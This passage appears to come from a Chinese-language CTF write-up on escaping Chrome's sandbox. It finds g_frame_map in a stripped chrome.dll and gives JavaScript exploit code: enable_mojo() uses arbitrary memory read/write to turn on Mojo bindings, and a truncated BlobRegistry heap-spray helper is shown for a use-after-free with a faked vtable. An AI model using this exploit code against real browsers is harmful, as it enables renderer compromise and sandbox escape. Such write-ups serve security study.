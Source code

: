 可以大致知道它是一个`std::map`容器，由于题目给我们的`chrome.dll`是去掉符号的，但幸运的是保留了一些调试信息，因此可以根据一些调试信息来定位`g_frame_map`的位置，不然就得重新编译一份版本一样的进行比对。可以通过IDA过滤字符串`render_frame_impl.cc`，然后定位到该字符串，交叉引用，列出一些函数，然后查看函数，找到一些特征，然后再加以动态调试观察

[![](https://p0.ssl.qhimg.com/t0115520447550fa34e.png)](https://p0.ssl.qhimg.com/t0115520447550fa34e.png)

可以确定`7FF87C478E80`这个位置就是`g_frame_map`，其偏移为`0x8688e80`，于是，我们可以遍历`g_frame_map`，修改每一个`RenderFrameImpl`对象里的信息，使其满足开启`Mojo`的条件

```
function enable_mojo() `{`
   var g_frame_map_addr = chrome_dll_base + 0x8688e80n;
   console.log("g_frame_map_addr=0x" + g_frame_map_addr.toString(16));
   var begin_ptr = read64(g_frame_map_addr + 0x8n);
   while (begin_ptr != 0n) `{`
      var render_frame_ptr = read64(begin_ptr + 0x28n);
      console.log("render_frame_ptr=0x" + render_frame_ptr.toString(16));
      var enabled_bindings_addr = render_frame_ptr + 0x5acn;
      console.log("enabled_bindings_addr=0x" + enabled_bindings_addr.toString(16));
      write32(enabled_bindings_addr,2);
      var is_main_frame_addr = render_frame_ptr + 0xc8n;
      console.log("is_main_frame_addr=0x" + is_main_frame_addr.toString(16));
      write8(is_main_frame_addr,1);

      begin_ptr = read64(begin_ptr + 0x8n);
   `}`
   resetBacking_store();
   return true;
`}`
```

### <a class="reference-link" name="%E6%B3%84%E9%9C%B2RenderFrameImpl%E5%AF%B9%E8%B1%A1%E5%9C%B0%E5%9D%80"></a>泄露RenderFrameImpl对象地址

制造UAF比较简单，然后我们可以利用`mojo`自带的`BlobRegistry`对象进行`heap spray`将数据布局，伪造好`render_frame_host_`的虚表，利用`BlobRegistry`进行`heap spray`的方法已经被国外大佬封装为函数，几乎可以在`Mojo`这一类UAF中统一使用。

```
function getAllocationConstructor() `{`
   let blob_registry_ptr = new blink.mojom.BlobRegistryPtr();
   Mojo.bindInterface(blink.mojom.BlobRegistry.name,mojo.makeRequest(blob_registry_ptr).handle, "process", true);

   function Allocation(size=280) `{`
      function ProgressClient(allocate) `{`
         function ProgressClientImpl() `{`
         `}`
         ProgressClientImpl.prototype = `{`
            onProgress: async (arg0) =&gt; `{`
               if (this.allocate.writePromise) `{`
                  this.allocate.writePromise.resolve(arg0);
               `}`
            `}`
         `}`
         this.allocate = allocate;

         this.ptr = new mojo.AssociatedInterfacePtrInfo();
         var progress_client_req = mojo.makeRequest(this.ptr);
         this.binding = new mojo.AssociatedBinding(blink.mojom.ProgressClient, new ProgressClientImpl(), progress_client_req);

         return this;
      `}`

      this.pipe = Mojo.createDataPipe(`{`elementNumBytes: size, capacityNumBytes: size`}`);
```